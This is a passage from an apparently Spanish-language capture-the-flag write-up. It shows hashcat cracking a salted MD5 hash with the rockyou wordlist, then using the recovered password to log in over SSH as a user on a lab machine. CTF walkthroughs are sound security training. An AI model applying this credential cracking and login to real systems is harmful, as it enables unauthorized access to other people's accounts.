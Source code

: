 ```shell
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2:secret
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5($salt.$pass)
Hash.Target......: 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2
Time.Started.....: Sat Feb 11 00:24:48 2023 (1 sec)
Time.Estimated...: Sat Feb 11 00:24:49 2023 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    22305 H/s (1.79ms) @ Accel:1024 Loops:1 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests
Progress.........: 2048/14344385 (0.01%)
Rejected.........: 0/2048 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456 -> lovers1

Started: Sat Feb 11 00:24:20 2023
Stopped: Sat Feb 11 00:24:50 2023
```

`Password:secret`

Ahora vamos a probar si podemos conectarnos por ssh ya que el puerto esta abierto

```shell
❯ ssh mitch@10.10.207.175 -p 2222
The authenticity of host '[10.10.207.175]:2222 ([10.10.207.175]:2222)' can't be established.
ECDSA key fingerprint is SHA256:Fce5J4GBLgx1+iaSMBjO+NFKOjZvL5LOVF5/jc0kwt8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.207.175]:2222' (ECDSA) to the list of known hosts.
mitch@10.10.207.175's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ whoami
-sh: 1: : not found
$ ls
user.txt
$ echo $SHELL
/bin/sh
$ export TERM=xterm
$ export SHELL=bash
$ whoami
mitch
$
```
